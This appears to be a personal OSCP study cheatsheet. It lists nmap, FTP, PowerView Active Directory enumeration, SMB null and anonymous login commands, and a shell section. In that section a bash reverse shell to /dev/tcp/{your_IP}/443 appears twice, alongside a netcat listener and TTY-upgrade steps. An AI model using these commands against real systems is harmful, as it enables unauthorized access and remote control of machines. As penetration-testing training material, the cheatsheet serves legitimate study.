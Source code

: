 ## OSCP Cheatsheet

# nmap

``` 
nmap -sC -sV -OA 10.10.123.43
```


# ftp

download multiple files
```
wget -r ftp://10.10.11.123
```

# PowerView
GetNetUser - enumerate user info
```
objectsid : *-500 = admin
```
filter out just for cn
```
GetNetUser | select cn
``` 

GetNetUser | select cn, objectsid, adspath

if you want to enumerate for specific user

```
GetNetUser -UserName Admin
```

Enumerate Groups
```
Get-NetGroup
```
list of groups that username is a part of
```
Get-NetGroup -Username Admin	
Get-NetGroupMember -groupname “adminsitrators”
```

part of AD env requires more than 1 computer or else it doesn't make sense to run AD
if you access a domain controller and you want to find out what computers you can compromise with administrator privilieges
```
Find-LocalAdminAccess
```

# SMB
```
netexec smb 10.10.14.31
netexec smb 10.10.14.31  -- shares
netexec smb 10.10.14.31  -- shares -u  ‘’ -p ‘’ #null login
netexec smb 10.10.14.31  -- shares -u  ‘DoesNotExist’ -p ‘’ #anonymous login. 
```
to specify no password
```
smbclient -N //10.10.13.31/ # -N 
```

in smb
to download everything in the directory
```
>RECURSE on
>prompt
>mget *
```

# SHELL
when you can get command injection
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
different window
```
nc lvnp -9001
```
back to shell
```
python3 -c ‘import pty;pty.spawn("bin/bash")’
background this (ctrl+z)
stty raw -echo; fg
export TERM=xterm
```

upload a shell from = /usr/share/webshells/...
edit the shell code
run netcat listening on the port

run this command to get a shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

OR 

if we get a shell but it is not stable,

use this payload 

bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"




<p>
  someone's blog
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
  
</p>

